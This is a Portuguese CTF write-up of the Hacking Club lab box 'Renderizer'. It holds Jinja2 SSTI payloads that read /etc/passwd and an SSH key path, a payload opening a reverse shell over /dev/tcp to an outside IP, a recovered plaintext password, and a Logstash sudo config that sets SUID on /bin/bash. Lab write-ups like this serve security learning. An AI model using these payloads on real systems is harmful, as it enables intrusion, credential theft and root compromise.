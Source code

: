 ```yaml
---
title: 'Renderizer Writeup'
date: '2024-07-13'
tags: ['SSTI','RCE']
draft: false
summary: 'Writeup do CTF Renderizer da Hacking Club.'
images: ['/static/images/renderizer-writeup-images/1.png']
authors: ['default']
---
```

![Writeup-Renderizer 1](/static/images/renderizer-writeup-images/1.png)

## **Plataforma**: Hacking Club

### **Dificuldade:** Easy

### **Nome**: Renderizer

### IP: 172.16.14.128

## Port Scanning

`nmap -sV -sC -p- -v $IP --open`

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f7:37:6a:01:16:84:08:ea:92:19:b0:b3:ba:22:71:34 (ECDSA)
|_  256 59:00:f0:d6:c4:d4:f3:91:85:8f:1a:d2:1d:29:87:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Renderizer
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Somente as portas 22(SSH) e 80 (HTTP) estão abertas.

---

![Writeup-Renderizer 2](/static/images/renderizer-writeup-images/2.png)

`sudo vim /etc/hosts`
![Writeup-Renderizer 3](/static/images/renderizer-writeup-images/3.png)
### [http://renderizer.hc](http://renderizer.hc)


![Writeup-Renderizer 4](/static/images/renderizer-writeup-images/4.png)
![Writeup-Renderizer 5](/static/images/renderizer-writeup-images/5.png)

Ele diz que é um jinja2 , a gente pode deduzir que se trata de um SSTI (Server-Side Tempalte Injection), pra testar eu mandei um `{{7*7}}.`

![Writeup-Renderizer 6](/static/images/renderizer-writeup-images/6.png)

Depois de fazer algumas pesquisas , eu achei uma payload pra leitura de arquivos que funcionou.

`{{ get_flashed_messages.globals.builtins.open("/etc/passwd").read() }}`

![Writeup-Renderizer 7](/static/images/renderizer-writeup-images/7.png)

john:x:1001:1001::/home/john:/bin/bash e ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash são os usuários.

Tentei utilizar o mesmo pra pegar a chave ssh , mas não deu:

`{{ get_flashed_messages.globals.builtins.open("/home/john/.ssh/id_rsa").read() }}`

![Writeup-Renderizer 8](/static/images/renderizer-writeup-images/8.png)

`{{ "teste".class.mro[1].subclasses() }}` tentei usar essa payload pra verificar as subclasses presentes , mas tava dando um erro acredito que o servidor tenha algum tipo de proteção, então eu fui atrás de outro jeito de verificar.

E consegui assim:

```
{% for subclass in ''.__class__.__mro__[1].__subclasses__() %}
    <h2>{{ subclass.__name__ }}</h2>
    <ul>
    {% for attr in subclass.__dict__.keys() %}
        <li>{{ attr }}</li>
    {% endfor %}
    </ul>
{% endfor %}
```

![Writeup-Renderizer 9](/static/images/renderizer-writeup-images/9.png)

Agora é achar a posição do array do Popen pra ganhar um RCE.

## Initial Access

Payload do mano vert16x pra achar a posição do array do Popen automaticamente nos possibilitando um RCE.

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("/bin/bash -c 'exec bash -i &>/dev/tcp/10.0.31.150/1337 <&1'").read().zfill(417)}}{%endif%}{% endfor %}
```

![Writeup-Renderizer 10](/static/images/renderizer-writeup-images/10.png)
## Privillege Escalation

`cat /etc/crontab`

![Writeup-Renderizer 11](/static/images/renderizer-writeup-images/11.png)
Eu pensei incialmente em simplesmente alterar a pasta webapp com os comandos abaixo mas não funcionou, por alguma razão a cron não executava.

```
rm -rf webapp
echo '#!/bin/bash' > /home/john/webapp
echo 'chmod u+s /bin/bash' >> /home/john/webapp
chmod +x webapp
```

Então eu fui ver a pasta que estava sendo feito o backup `/var/backups`

![Writeup-Renderizer 12](/static/images/renderizer-writeup-images/12.png)

Se eu tentar dar o `unzip webapp-03-01-2024.zip` ele da permission denied

![Writeup-Renderizer 13](/static/images/renderizer-writeup-images/13.png)

Então a gente precisa copiar esse `webapp-03-01-2024.zip` pra pasta tmp 
`cp webapp-03-01-2024.zip /tmp`

Na pasta tmp basta a gente unzipar o arquivo:

`unzip webapp-03-01-2024.zip`

![Writeup-Renderizer 14](/static/images/renderizer-writeup-images/14.png)

Depois de unzipar a pasta webapp tem uma variavel de ambiente `.env` que por sinal é a mesma senha do usuario que estamos logado `john` .

![Writeup-Renderizer 15](/static/images/renderizer-writeup-images/15.png)

`john:bwsTuCtSYue7G4`

`sudo -l`
![Writeup-Renderizer 16](/static/images/renderizer-writeup-images/16.png)

Pra explorar o logstash a gente precisa criar um arquivo `.yaml` malicioso.

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/logstash)

![Writeup-Renderizer 17](/static/images/renderizer-writeup-images/17.png)

```
input {
  exec {
    command => "chmod u+s /bin/bash"
    interval => 120
  }
}

output {
  file {
    path => "/tmp/output.log"
    codec => rubydebug
  }
}

```

depois é so rodar o comando , `sudo /root/logstash/bin/logstash -f /tmp/webapp/teste.yaml`

Demora alguns segundos pra rodar:

![Writeup-Renderizer 18](/static/images/renderizer-writeup-images/18.png)

E o /bin/bash vai virar SUID após a execução do logstash.

![Writeup-Renderizer 19](/static/images/renderizer-writeup-images/19.png)
![Writeup-Renderizer 20](/static/images/renderizer-writeup-images/20.png)
## Proof

![Writeup-Renderizer 21](/static/images/renderizer-writeup-images/21.png)

